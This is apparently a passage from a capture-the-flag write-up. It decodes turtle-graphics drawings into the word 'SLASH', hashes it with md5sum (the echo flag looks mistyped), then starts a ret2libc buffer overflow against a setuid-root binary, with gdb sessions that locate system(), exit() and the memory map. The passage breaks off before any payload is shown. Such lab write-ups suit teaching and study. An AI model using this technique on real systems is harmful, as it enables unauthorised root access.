 ```py
t.fd(1)
t.rt(1)
t.fd(50)
turtle.done()
```

```py
import turtle 
s = turtle.getscreen()
t = turtle.Turtle()

t.speed(0)
t.fd(100)
t.bk(200)
t.fd(100)
t.rt(90)
t.fd(100)
t.rt(90)
t.fd(100)
t.bk(200)
turtle.done()
```

and they spell out `SLASH`  
the final message is `Can you digest the message? :)`

so by trying various encrpytion the one that work is
```
> echo -m "SLASH" | md5sum
646da671ca01bb5d84dbb5fb2238dc8e
```

## Buffer overflow 
we got a binary with suid permission bit so this will be execute as root. with ltrace we see that it use the strcpy which can be expliot for buffer overflow.

https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc

1. find the size of the buffer to be overflow 
2. find the system() address
3. find the exit() address
4. find the /bin/sh address inside the libc

using gdb we can
```
gdb ./expliot_me
(gdb) b main
(gdb) r
```
```
(gdb) p system
$1 = {<text variable, no debug info>} 0xb7e6b060 <system>
0xb7e6b060
```
```
(gdb) p exit
$2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
```
```


(gdb) info proc map
process 2598
Mapped address spaces:
        Start Addr   End Addr       Size     Offset objfile
         0x8048000  0x8049000     0x1000        0x0 /home/zaz/exploit_me
```